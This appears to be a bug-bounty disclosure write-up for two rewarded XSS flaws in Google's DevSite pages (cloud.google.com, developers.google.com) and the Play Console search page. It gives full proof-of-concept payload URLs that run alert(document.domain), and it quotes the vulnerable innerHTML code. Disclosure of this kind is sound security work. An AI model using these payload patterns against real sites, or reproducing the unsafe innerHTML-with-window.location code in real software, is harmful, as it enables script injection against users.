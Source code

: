 ```yaml
---
title: Google XSS
---
```


# Google DevSite XSS (cloud.google.com, developers.google.com) $3133.70
Due to a vulnerability in the server-side implementation of ```<devsite-language-selector>``` part of the URL was reflected as html so it was possible to get XSS on the origins using that component from the 404 page.  
This was found using [DalFox](https://dalfox.hahwul.com/docs/home/) which kept finding the same bug due to it being the "not found" page.  

https://developers.google.com/foo%22%3E%3Cimg%20src=x%3E%3C/a%3E%3C/li%3E%3C/ul%3E%3C/devsite-language-selector%3E%3Ch1%3E%3Cscript%3Ealert(document.domain)%3C/script%3E/a
https://cloud.google.com/foo%22%3E%3Cimg%20src=x%3E%3C/a%3E%3C/li%3E%3C/ul%3E%3C/devsite-language-selector%3E%3Ch1%3E%3Cscript%3Ealert(document.domain)%3C/script%3E/a
  
# Google Play XSS (play.google.com)  $5000
On the search page of google play console vulnerable code was run when the search resulted in an error.  
Getting an error was simple as doing ```/?search=&``` and because ```window.location``` includes the hash which never encodes ```'``` it’s possible to escape the href context and set other html attributes, unlike the DevSite XSS this is prevented by the CSP but was still awarded more by the panel.  
```js
b.innerHTML = b.innerHTML.replace(/({query})/g, "<a href='" + window.location + "'>" + a.g + "</a>");
```
https://play.google.com/console/about/search-results/?search=&#'onclick=alert(document.domain)//
